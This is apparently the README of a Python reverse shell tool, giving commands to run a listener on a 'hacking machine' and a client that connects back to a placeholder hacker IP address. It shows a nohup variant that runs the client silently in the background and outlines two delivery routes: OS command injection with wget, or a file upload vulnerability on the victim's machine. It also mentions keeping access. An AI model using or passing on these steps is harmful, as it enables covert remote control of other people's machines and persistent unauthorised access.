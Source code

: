 # Usage

## On Hacking machine
`python3 reverseShellServer.py`

## On Client machine
`python3 reverseShellClient.py <hacker_IP>`

Or run as a backgroud job
`nohup python3 reverseShellClient.py <hacker_ip> &> /dev/null`


### Port as an optional argument
Both scripts communicate on port 8000 by default.
This can be changed to another port - but you would need to make sure both scripts have the same port..

#### On Hacking machine
`python3 reverseShellServer.py <port>`

#### On Client machine
`python3 reverseShellClient.py <hacker_IP> <port>`

### Getting the reverse shell backdoor exploit onto a client machine
- Perform OS injection and run wget to download the script onto the victim's machine
- Find a file upload vulnerability and upload the file onto the victim's machine

### Running the reverse shell on a client machine
- OS Injection
- Possible if you already found one way in and want to maintain access
